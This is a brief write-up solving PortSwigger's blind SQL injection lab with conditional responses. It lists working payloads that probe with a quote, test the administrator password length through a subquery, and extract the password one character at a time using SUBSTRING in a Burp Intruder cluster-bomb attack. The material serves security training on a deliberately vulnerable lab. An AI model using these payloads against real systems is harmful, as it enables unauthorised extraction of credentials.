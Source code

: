 # [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Step - 1

---

```
'
```

Content Length Change because Single Quotes

Step - 2

---

```
' AND '1'='1
```

Step - 3

---

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```

Content Length Change
1. password Length: `20`

Step - 4

---

```
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
```

1. Attack Type: `Cluster bomb`
2. Payload Set 1: `1-20`
3. Payload Set 2: `a-z`
